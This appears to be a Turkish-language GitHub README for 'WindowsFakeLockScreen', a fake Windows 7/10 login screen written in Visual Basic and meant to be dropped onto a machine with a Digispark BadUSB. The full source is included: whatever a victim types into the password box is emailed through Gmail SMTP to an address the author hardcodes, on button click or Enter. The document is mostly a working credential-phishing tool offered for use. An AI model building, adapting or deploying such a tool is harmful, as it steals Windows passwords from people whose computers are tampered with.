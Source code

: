 # WindowsFakeLockScreen
<img src="https://i.hizliresim.com/Ii5hUx.png">

<img src="https://i.hizliresim.com/COYKEc.png">

Üst kısımdaki resimden de anlayacağınız Windows 7 ve Windows 10 için sahte bir login ekranıdır.
Programı visual basic ile oluşturdum.
Mantık programda textbox kısmına girilen herhangi bir yazıyı belirlediğimiz mail adresine göndermektir.
Bu programı BadUSB ile birlikte kullanmak amaçlı oluşturdum ve BadUSB olarak Digispark kullandım.

Digispark ile ilgli bilgiye ulaşmak için: https://digistump.com/wiki/digispark bu adrese bakın

Sahte görüntü tamamen bir görseldir sadece TextBox ve Button olan kısım eklenmiştir butonun daha gerçekçi gözükmesi için PictureBox olarak ayarladım.

Programı Visual Studio 2013 Ultimate kullanarak hazırladım

<strong>PROGRAMIN KAYNAK KODU</strong>

<pre><code>Imports System.Net.Mail
Public Class Form1

    Private Sub Form1_Load(sender As System.Object, e As System.EventArgs) Handles MyBase.Load

    End Sub

    Private Sub PictureBox3_Click(sender As System.Object, e As System.EventArgs) Handles PictureBox3.Click
        Dim MyMailMessage As New MailMessage()

            Try
                MyMailMessage.From = New MailAddress("MAILADRESI@gmail.com")
                MyMailMessage.To.Add("sefaorucsiberdunya@gmail.com")
                MyMailMessage.Subject = TextBox1.Text
                MyMailMessage.Body = TextBox2.Text
                Dim SMTP As New SmtpClient("smtp.gmail.com")
                SMTP.Port = 587
                SMTP.EnableSsl = True
                SMTP.Credentials = New System.Net.NetworkCredential("MAILADRESI@gmail.com", "PAROLA")
                SMTP.Send(MyMailMessage)
                TextBox2.Text = ""
                Dim frm As New Form1
                frm.Show()

                Me.Close()
            Catch ex As Exception
            End Try
    End Sub

    Private Sub TextBox1_KeyDown(sender As Object, e As KeyEventArgs) Handles TextBox1.KeyDown
        If e.KeyCode = Keys.Enter Then
            Dim MyMailMessage As New MailMessage()
            MyMailMessage.From = New MailAddress("MAILADRESI@gmail.com")
            MyMailMessage.To.Add("MAILADRESI@gmail.com")
            MyMailMessage.Subject = TextBox1.Text
            MyMailMessage.Body = TextBox2.Text
            Dim SMTP As New SmtpClient("smtp.gmail.com")
            SMTP.Port = 587
            SMTP.EnableSsl = True
            SMTP.Credentials = New System.Net.NetworkCredential("MAILADRESI@gmail.com", "POROLA")
            SMTP.Send(MyMailMessage)
            TextBox2.Text = ""
            Dim frm As New Form1
            frm.Show()

            Me.Close()

        End If
    End Sub

    Private Sub TextBox1_TextChanged(sender As Object, e As EventArgs) Handles TextBox1.TextChanged


    End Sub

End Class
</code></pre>

Kaynak kodlardan da görebileceğiniz gibi oldukça basit bir kodlamadır.
Aynı kodları kullanarak win7 ve win10 görseli hazırladım
Kodları ikinci defa yazmamın sebebi girilen texti hem enter tuşuna bastığında hem de ekrandaki ok işaretine bastığı zaman belirlediğimiz mail adresine göndermesi içindir.





